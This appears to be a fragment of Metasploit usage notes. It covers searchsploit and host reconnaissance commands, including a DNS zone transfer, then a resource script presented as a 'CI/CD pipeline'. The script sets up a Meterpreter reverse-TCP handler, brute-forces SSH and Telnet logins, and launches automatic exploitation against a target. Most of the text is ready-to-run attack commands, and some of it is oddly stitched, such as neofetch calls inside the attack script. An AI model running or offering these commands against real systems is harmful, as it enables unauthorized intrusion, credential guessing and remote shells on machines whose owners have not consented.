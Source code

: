     searchsploit apache 2.2.15

#



# Show hosts in an workspace

    hosts

# Check PTR's

    host -v -T 192.168.1.37
    
# Show Operating System of a host

    host -v -V 192.168.1.37

# Lists all hosts in a domain, using AXFR

    host -l yourdomain.com
#   
#    
# 10. Create the Metasploit Pipeline CI/CD for make a PoC with the vulnerabilities that have your Applications
(Maximum 27 task in parallel each 8 hours)

    apt install neofetch
    
    cd /root
    nano /root/SA/sk/SAE.rc
    
    pro_user root
    workspace sk
    workspace
    spool /root/SA/sk/r7nmapScan_spool
    setg ExitOnSession false
    setg VERBOSE true
    <ruby>
    run_single("set RHOSTS #{framework.db.hosts.map(&:address).join(' ')}")
    </ruby>
    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 10.0.0.4
    setg target 0
    version
    neofetch
    save
    banner
    pro_bruteforce deep -K -I -b 192.168.0.22 -s ssh,telnet -j -z -vvv -ddd
    pro_exploit yourtarget.com -ea 3 -et 3 -l 10.0.0.4 -m auto -r great -b yourblacklist.com -j -z -vvv -ddd
    run -j -z -vvv -ddd
   